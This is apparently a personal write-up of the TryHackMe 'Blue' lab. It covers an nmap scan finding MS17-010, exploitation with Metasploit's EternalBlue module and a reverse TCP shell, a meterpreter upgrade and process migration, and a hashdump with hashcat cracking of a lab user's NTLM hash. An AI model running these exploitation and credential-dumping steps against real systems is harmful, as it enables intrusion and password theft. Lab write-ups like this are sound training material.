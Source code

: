 # Blue

Notes on tryhackme ctf.

A number of unnecessary steps were added for learning. 
Actually gaining system level access is a short task.

## recon

### nmap

`└─# nmap -sV -vv --script vuln 10.10.204.243`

```
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 128 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped   syn-ack ttl 128
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49167/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:A4:76:B3:B3:A3 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:07
Completed NSE at 00:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:07
Completed NSE at 00:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.28 seconds
           Raw packets sent: 1091 (47.988KB) | Rcvd: 1001 (40.064KB)
```


Vulnerable to Eternal Blue.


## initial access

### Metasploit

`msf6 > use exploit/windows/smb/ms17_010_eternalblue`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp` (for learning).

`msf6 exploit(windows/smb/ms17_010_eternalblue) > run`

### converting shell to meterpreter

https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646

- ctrl+z
- `use post/multi/manage/shell_to_meterpreter`
- `set session 1`
Opens meterpreter session 2
- `sessions -i 2`



## escalation

This section is mostly just playing around with meterpreter and not actually necessary for this challenge (we already have system level access).

`C:\Windows\system32>whoami`

```
nt authority\system
```

`meterpreter > ps`

```
PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 708   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 724   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 816   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 884   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 932   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1000  644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 1020  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 1064  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1168  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1296  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1332  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1392  692   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1468  692   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1488  816   WmiPrvSE.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wbem\wmiprvse.exe
 1624  692   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1820  724   WMIADAP.exe           x64   0        NT AUTHORITY\SYSTEM           \\?\C:\Windows\system32\wbem\WMIADAP.EXE
 1888  724   taskeng.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\taskeng.exe
 1940  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 2084  816   WmiPrvSE.exe
 2120  692   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
 2184  3036  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 2348  692   mscorsvw.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework\v4.0.30319\mscorsvw.exe
 2360  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 2396  692   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 2440  1296  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 2448  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 2508  692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 2636  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 2656  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 2672  692   vds.exe               x64   0        NT AUTHORITY\SYSTEM
 2820  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM
 3068  2348  mscorsvw.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework\v4.0.30319\mscorsvw.exe
```

`meterpreter > migrate 1296` should attatch our shell to the spoolsv.exe service. This will hopefully make our shell more stable.

### hashdump

`meterpreter > hashdump`

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

`└─# echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash`

`└─# hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt`

```
ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22
```

## capturing the flags

`meterpreter > search -f *flag*`
